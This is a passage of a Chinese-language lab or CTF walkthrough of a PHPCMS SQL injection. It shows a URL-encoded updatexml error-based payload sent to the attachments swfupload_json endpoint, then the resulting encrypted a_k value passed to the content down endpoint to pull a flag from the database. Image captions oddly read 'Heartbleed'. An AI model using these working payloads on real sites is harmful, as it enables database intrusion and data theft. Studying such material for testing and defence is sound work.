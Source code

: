 2. 把这个cookie的值复制下来以POST传入userid_flash变量访问`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28select%20flag%20from%20flag%3B%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`，该URL通过url解码后是`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id=%*27 and updatexml(1,concat(1,(select flag from flag;)),1)#&m=1&f=haha&modelid=2&catid=7&`其中`select flag from flag;`可以换成任一SQL注入语句。通过该cookie获取att_json。
<center>![Heartbleed](文档/3.png)</center>

3. 上一步我们已经获取到了通过json在通过cookie加密的SQL了因为他返回的cookie就是已经加密的SQLPayload现在我们传入到a_k变量，访问`http://192.168.119.131/phpcms/install_package/index.php?m=content&c=down&a_k=8532s3x_Spdkw0xiFxEcKyivtW4Sh8zyDV07Yyl2MOds0nULY-wjT9y3RLa4P-Fj7FBzUkhIct0DRpcIE1bwI6pklJAazBejhJIqRJF3hxaYB6S2e_ogokZOsiXYHulCW6-_yhFYziGpsy9H0dW93f7ZeU5VYf-Y-OILu22tlk3pUThLDLUnXyUVvZh8pc9YXmjGHMz4NeE`查看返回结果：
<center>![Heartbleed](文档/4.png)</center>
可以看到SQL语句执行成功并将结果返回在页面中。

